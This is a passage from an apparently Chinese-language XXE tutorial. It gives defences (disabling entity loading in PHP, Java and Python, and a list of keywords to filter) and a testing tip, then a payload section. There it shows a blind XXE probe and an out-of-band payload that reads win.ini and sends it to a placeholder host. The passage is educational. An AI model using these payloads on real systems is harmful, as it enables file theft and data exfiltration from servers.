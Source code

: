 	里层嵌套为字符实体 例如 %为 &#37;

web服务器uri get请求长度一般限制在2k 

.NET的System.XML会自动进行URLencode；

## 0x05 防御
---

禁用外部实体
PHP：

	libxml_disable_entity_loader(true);

JAVA:

	DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
	dbf.setExpandEntityReferences(false);
Python：

	from lxml import etree
	xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))

过滤关键字

	DOCTYPE ,ELEMENT, ENTITY，SYSTEM等

### 0x06 总结
---
平时burp 抓包 可以在请求头添加  Content-type:application/xml
并添加 xml语句如果报错 或执行则有可能存在xxe漏洞，不断根据response fuzz即可

## 0x07 xxe payload

```
--------------------------------------------------------------
Vanilla, used to verify outbound xxe or blind xxe
--------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY sp SYSTEM "http://x.x.x.x:443/test.txt">
]>
<r>&sp;</r>

---------------------------------------------------------------
OoB extraction
---------------------------------------------------------------

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://x.x.x.x:443/ev.xml">
%sp;
%param1;
]>
<r>&exfil;</r>

## External dtd: ##

<!ENTITY % data SYSTEM "file:///c:/windows/win.ini">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://x.x.x.x:443/?%data;'>">

----------------------------------------------------------------
OoB variation of above (seems to work better against .NET)
```